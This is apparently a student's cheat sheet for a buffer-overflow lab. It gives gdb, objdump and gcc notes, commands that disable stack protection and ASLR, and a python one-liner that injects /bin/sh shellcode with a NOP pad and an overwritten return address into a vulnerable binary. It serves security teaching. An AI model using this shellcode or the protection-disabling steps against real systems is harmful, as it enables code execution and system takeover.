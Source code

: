 # A sheet for later use

## exec with python
```
./ans_check5 $(python -c "print '\xAA'*N + '\xef\xbe\xad\xde'")
```

## env execute
+ This is needed when synchronizing address between command line execution and gdb execution. 
```
# command line execution
env -i PWD="/home/seed/stack_addresses" SHELL="/bin/bash" SHLVL=0 /home/seed/stack_addresses/ans_check5 <param>

# gdb execution
env -i PWD="/home/seed/labs/lab3/stack_addresses" SHELL="/bin/bash" SHLVL=0 gdb /home/seed/523/labs/lab3/stack_addresses/ans_check5
unset env LINES
unset env COLUMNS
break 
run $( python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x90'*22 + '\x8e\xfd\xff\xbf'")
x/32xw $esp
c
x/32xw $esp
```


## How to find the return address of a function
+ Both are working
+ gdb : Exec the gdb and then disass 'a function name which is calling the function you target'. 
And the next address of the function call should be the return address.
+ objdump : Exec the objdump and grep the 'the function name you want to find'. 
  And the next address of the function call should be the return address.
  
## gcc
```
gcc -g -z execstack -fno-stack-protector ans_check5.c -o ans_check5

-fno-stack-protector : disables stack protection. Asks the compiler not to add the StackGuard protection.
-g : default debug information
-o : set output file name
-z execstack : marks the stack as executable
```

## objdump
```
objdump -D ans_check5 | grep -B 1 exit

# grep -B 1 exit:  -B 1 : exit 찾고 그것만 보여주지 말고 그 전에 한줄도 보여주란 옵션
# grep -A 1 exit:  -A 1 : exit 찾고 그것만 보여주지 말고 그 에 한줄도 보여주란 옵션
```


## To disable ASLR
+ 0 (disabled), or 1 or 2(enabled)
```
cat /proc/sys/kernel/randomize_va_space # Write down val
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## gdb example
```
# run gdb quietly
gdb -q <program>

# set break point and run
set args “--help”
break __libc_start_main
break *0x08048534 : Using address directly, type *
run

# disassemble function. To find out the address of the function
disass <function name>

# Investigate memory
frame
bt
info frame
info registers
x /16xw $esp
set *{start} = 0x20554c42

x/s ans_buf
x/xw &ans_flag
x/32xw $esp
```


## gdb options
```
-q : 시작시 설명문구 없이 시작
list <line number> : Show the code
break <line nuber> : Set a break point
run <param> : keep executing. <param> is optional
c : after breaking, keep executing
dissass <function name> : Shows the disassembled code and it's memory address
bt : backtrace
set args <param> : Set run param
set <address> = <value> : Set <value> at the <address>\
i b : break information 보기
i r esp : information register esp
```
